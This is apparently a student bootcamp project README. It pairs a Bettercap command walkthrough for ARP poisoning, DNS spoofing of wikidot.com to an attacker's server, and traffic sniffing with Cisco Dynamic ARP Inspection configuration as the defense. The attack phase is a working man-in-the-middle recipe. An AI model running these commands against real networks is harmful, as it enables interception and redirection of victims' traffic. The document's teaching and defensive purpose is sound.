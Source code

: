 # Operation NetNabber
Fullstack Academy - Cybersecurity - Cohort 2208-fcb-et-cyb-pt

Team Members: Drago Bonacich and Troy Schmitz

NOTE: THIS DEMONSTRATION IS INTENDED FOR EDUCATIONAL PURPOSES ONLY. WE DO NOT CONDONE THE USE OF HACKING TOOLS FOR ILLEGAL PURPOSES.

Operation NetNabber was created as a two-phase demonstration, an attack and a defense strategy. Phase one utilizes a powerful network sniffing and spoofing tool known as Bettercap, which is included in the latest versions of Kali Linux. This tool allowed us to conduct an ARP poisoning attack between a Windows machine and its default gateway, letting us act as a Man in the Middle and giving us the ability to analyze any traffic between the two. Additionally, we were able to use a feature within the same tool to spoof the DNS cache when our target connected through us, and automatically navigated our victim’s browser to a malicious site running on our attacking machine. Phase two demonstrated the configuration of a defensive technology for these ARP poisoning attacks known as Dynamic ARP Inspection. This phase of our project was conducted on a network simulation tool from Cisco known as Packet Tracer. It allowed us to build a simulated network, demonstrate how to configure the correct settings to enable Dynamic ARP Inspection, and show the audience that an ARP spoofing attempt was not successful with this technology enabled.

# Link to Video Demonstration: 
https://youtu.be/8abLuPq8g7c



# Phase 1: Attack

# Change IP Forwarding in Kali Linux so that auto packet drop is disabled:
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

# Change Windows registry to Enable IP Forwarding:
In registry editor browse to  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
Modify the value of the parameter IPEnableRouter from 0 to 1 and close the registry editor window
Restart your system and execute the command "netsh interface ipv4 show interface <if id>" to verify whether IP forwarding is enabled.

# Bettercap for Kali Linux (May not be natively installed and must be run with sudo privelages):
sudo bettercap

# Probe the network to see a list of devices connected:
net.probe on

# Lists all devices on the network with their MAC address and IP address
net.show

# Tells the program to target not only the IP address, but also the gateway that it's connected to so that you can see traffic going both ways:
set arp.spoof.fullduplex true

# Set your desired target IP address for ARP spoofing:
set arp.spoof.targets <ip address>

# Setting up DNS spoof so that when the target connects to "wikidot.com" it redirects the traffic to the attacking Kali Linux apache server:
set dns.spoof.domains wikidot.com

# Launch ARP poisoning attack:
arp.spoof on

# Turns the DNS spoof on:
dns.spoof on

# Turn the network sniffer on to see the traffic from the victim and the gateway:
net.sniff on



# Phase 2: Defense

*** The following instructions are for configuration of Dynamic ARP Inspection on Cisco managed switches ***

# Open / Connect to the CLI of the Cisco managed switch.

# Enter user execution mode:
en

# Enter global configuration mode:
config t

# Enable DHCP Snooping globally:
ip dhcp snooping

(DHCP snooping will disallow all DHCP "offer" and "acknowledge" packets through the switch, except on the ports we set as Trusted. This will prevent any other device from acting as the DHCP server)

# Enter configuration mode for the interface connected to the DHCP server:
interface <dhcp_connected_interface>

# Trust the interface connected to the DHCP server:
ip dhcp snooping trust

# Exit the interface configuration and enter global configuration:
Ctrl + Z
config t

# Enable Dynamic ARP Inspection on the desired VLAN:
ip arp inspection vlan <#_vlan>
